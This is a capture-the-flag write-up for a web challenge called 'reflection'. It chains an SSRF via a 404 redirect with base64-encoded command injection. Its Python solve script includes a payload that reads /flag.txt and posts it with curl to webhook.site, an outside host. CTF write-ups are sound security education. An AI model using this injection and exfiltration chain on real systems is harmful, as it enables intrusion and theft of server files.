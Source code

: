 ```yaml
---
ai_date: '2025-04-27 05:21:34'
ai_summary: Exploited SSRF using 404 redirect and base64 encoding to inject payload,
  fixed unclosed backtick issue.
ai_tags:
- ssrf
- xss
- base64
created: 2024-08-02T15:00
points: 100
solves: 87
tags:
- reflection
updated: 2024-08-05T19:36
---
```


To inject content into `exec`, we have to make `localhost` output arbitrary content.

We can do that with 404.

`target?url=(localhost/payload)`
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625383/2024/08/75a8802358f655bfa756b85929d323c2.png)

The payload would hence be something like this.
`target?url=(localhost?url=localhost/payload)`

Since the output goes through base64 decode, we also have to encode our payload.

However, with some debugging I found out that the html content itself after base64 decode, will produce a unclosed backtick, we need to close it ourselves.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722625635/2024/08/0ea78502d162e8923b24ebc7a6d359e3.png)

## solve script

```python
import base64
import requests
import urllib.parse

payload = "`;\ncat /flag.txt | curl https://webhook.site/ -X POST -d @-\n"
payload = base64.b64encode(payload.encode()).decode()
safe_string = urllib.parse.quote_plus("http://localhost/"+payload)
safe_string = urllib.parse.quote_plus("http://localhost/?url="+safe_string)
requests.get("http://challs.tfcctf.com:30795/?url="+safe_string)
```